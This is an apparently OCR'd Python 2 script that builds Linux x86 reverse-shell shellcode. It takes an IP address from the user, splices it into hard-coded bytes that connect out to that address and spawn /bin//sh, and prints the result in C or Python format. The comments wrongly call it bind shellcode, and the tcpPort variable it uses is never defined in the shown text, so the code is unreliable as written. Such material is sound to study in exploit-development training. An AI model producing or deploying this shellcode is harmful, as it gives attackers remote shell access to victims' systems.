 ```python
## IP Address
# Take users IP Address as input
ipAddrStr = raw_input("Enter IP Address [127.1.1.1]: ")
if ipAddrStr == "" :
        ipAddrStr = "127.1.1.1"
formatIP = ipAddrStr.split('.')
hexIP = '{:02x}{:02x}{:02x}{:02x}'.format(*map(int, formatIP))
# converts the ip address into the correct hex format
ipAddr = "\\x".join(hexIP[i:i+2] for i in range(0,len(hexIP), 2))
print "Your IP Address in Hex is:","\\x"+ipAddr
#print "\\x"+ipAddr   # debugging

## Shellcode
scPart1 = "\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a\x02\x89"
scPart1 += "\xe1\xcd\x80\x96\x31\xc0\x43\x68"
#ipAddr = "\x7f\x01\x01\x01" # IP 127.1.1.1
scPart2 = "\x66\x68" # Push Word
# tcpPort = "\x05\x39" # TCP Port 1337
scPart3 = "\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xb0"
scPart3 += "\x66\xcd\x80\x87\xde\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9"
scPart3 += "\x04\x75\xf6\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62"
scPart3 += "\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\xcd\x80"

# Initiate the Shellcode variable we will output
shellcode = ""

# Add the first part of the tcp bind shellcode
for x in bytearray(scPart1) :
    shellcode += '\\x'
    shellcode += '%02x' %x
# Add the user input id address to the shellcode
shellcode += "\\x"+ipAddr
# Add the second part of the tcp bind shellcode
for x in bytearray(scPart2) :
    shellcode += '\\x'
    shellcode += '%02x' %x
# Add the user added tcp port to the shellcode
shellcode += "\\x"+tcpPort
# Add the third part of the tcp bind shellcode
for x in bytearray(scPart3) :
    shellcode += '\\x'
    shellcode += '%02x' %x

print "Choose your shellcode export format."
exportFormat = raw_input("[1] = C Format\n[2] = Python Format\n[1]: ")
if exportFormat == "2" :
    formatSC = '"\nshellcode += "'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[-----------------------Your-Shellcode------------------------]"
    print 'shellcode = "'+formatSC+'"'
else :
    formatSC = '"\n"'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[----------------Your-Shellcode------------------]"
    print 'unsigned char shellcode[] = \\\n"'+formatSC+'";'
```


[1]: 1